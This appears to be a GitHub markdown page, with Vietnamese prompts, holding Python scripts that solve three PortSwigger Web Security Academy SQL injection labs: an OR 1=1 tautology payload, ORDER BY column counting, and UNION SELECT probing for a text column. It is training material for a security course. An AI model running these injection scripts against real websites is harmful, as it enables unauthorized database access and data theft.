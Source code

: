 # Mục lục
- [Lab 1](https://github.com/toanvunee/Training-KCSC/blob/main/Task-1/solveLabByPython.md#lab-1)
- [Lab 3](https://github.com/toanvunee/Training-KCSC/blob/main/Task-1/solveLabByPython.md#lab-3)
- [Lab 4](https://github.com/toanvunee/Training-KCSC/blob/main/Task-1/solveLabByPython.md#lab-4)


# LAB 1: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

```python
import requests
print("Gửi URL dưới dạng: https://xxxxx.web-security-academy.net/")
url = input("Nhập URL: ").rstrip("/")
target_url = f"{url}/filter?category=Gifts'+OR+1=1+--"

response = requests.get(target_url)
if (response.status_code == 200):
    print("Successful")
else:
    print("Failed")
```

# LAB 3: SQL injection UNION attack, determining the number of columns returned by the query
```python
import requests

print("Gửi URL dưới dạng: https://xxxxx.web-security-academy.net/")
url = input("Nhập URL: ").rstrip("/")


i = 1
while True:
    order_url = f"{url}/filter?category=Gifts'+ORDER+BY+{i}+--"
    response = requests.get(order_url)

    if response.status_code == 200:
        i += 1  
    else:
        i -= 1  
        break

null_values = ",+".join(["NULL"] * i)
union_url = f"{url}/filter?category=Gifts'+UNION+SELECT+{null_values}--"

print(f"Payload UNION: {union_url}")
response = requests.get(union_url)

if (response.status_code == 200):
    print("Successful")
else:
    print("Failed")
```

# LAB 4: SQL injection UNION attack, finding a column containing text
```python
import requests

print("Gửi URL dưới dạng: https://xxxxx.web-security-academy.net/")
url = input("Nhập URL: ").rstrip("/")
print("Ví dụ: Giá trị được lab cung cấp: aNjdF")
value = input("Giá trị được lab cung cấp: ")

i = 1
while True:
    order_url = f"{url}/filter?category=Gifts'+ORDER+BY+{i}+--"
    response = requests.get(order_url)

    if response.status_code == 200:
        i += 1  
    else:
        i -= 1  
        break

for pos in range(i):
    test_values = ["NULL"] * i  
    test_values[pos] = f"'{value}'"  

    null_values = ",+".join(test_values)
    union_url = f"{url}/filter?category=Gifts'+UNION+SELECT+{null_values}--"
    
    print(f"Thử payload: {union_url}")
    response = requests.get(union_url)
    
    if response.status_code == 200:
        print("Successful")
        break 
```



